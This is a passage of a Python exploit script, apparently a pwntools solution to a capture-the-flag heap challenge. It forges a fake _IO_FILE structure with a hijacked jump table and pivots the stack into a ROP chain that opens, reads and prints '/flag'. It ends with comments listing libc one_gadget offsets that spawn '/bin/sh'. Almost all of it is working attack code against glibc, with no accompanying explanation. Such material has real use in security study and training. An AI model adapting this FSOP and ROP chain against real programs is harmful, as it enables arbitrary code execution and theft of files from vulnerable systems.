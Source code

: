 ```python
#_IO_jump_t
fake_file+=p64(0)*0xd
fake_file+=p64(magic_gadget)

add_rsp18=libc_base+0x000000000003a889
syscall=libc_base+0x1147E0

orw = b'/flag\x00\x00\x00'+p64(add_rsp18)+p64(0) #3.add rsp, 0x18 ; ret
orw += p64(orw_addr-0x8) #1.指向leave_ret的地址
orw += p64(leave_ret) #2.迁移后指向add_rsp18的地址
#open
orw += p64(pop_rdi)
orw += p64(orw_addr)
orw += p64(pop_rsi) + p64(0)
orw += p64(pop_rax) + p64(2)
orw += p64(pop_rdx12) + p64(0)+p64(0)
orw += p64(syscall)
#read
orw += p64(pop_rdi) + p64(3)
orw += p64(pop_rsi) + p64(orw_addr + 0x100)
orw += p64(pop_rdx12) + p64(0x50) + p64(0)
orw += p64(read_addr)
#puts
orw += p64(pop_rdi) + p64(1)
orw += p64(pop_rsi) + p64(orw_addr + 0x100)
orw += p64(pop_rdx12) + p64(0x50) + p64(0)
orw += p64(write_addr)

fake_file+=orw

insert(1,0x3f0,fake_file)
# p()
mexit()

io.interactive()

# 0x50a47 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
# constraints:
#   rsp & 0xf == 0
#   rcx == NULL
#   rbp == NULL || (u16)[rbp] == NULL

# 0xebc81 execve("/bin/sh", r10, [rbp-0x70])
# constraints:
#   address rbp-0x78 is writable
#   [r10] == NULL || r10 == NULL
#   [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

# 0xebc85 execve("/bin/sh", r10, rdx)
# constraints:
#   address rbp-0x78 is writable
#   [r10] == NULL || r10 == NULL
#   [rdx] == NULL || rdx == NULL

# 0xebc88 execve("/bin/sh", rsi, rdx)
# constraints:
#   address rbp-0x78 is writable
#   [rsi] == NULL || rsi == NULL
#   [rdx] == NULL || rdx == NULL
```
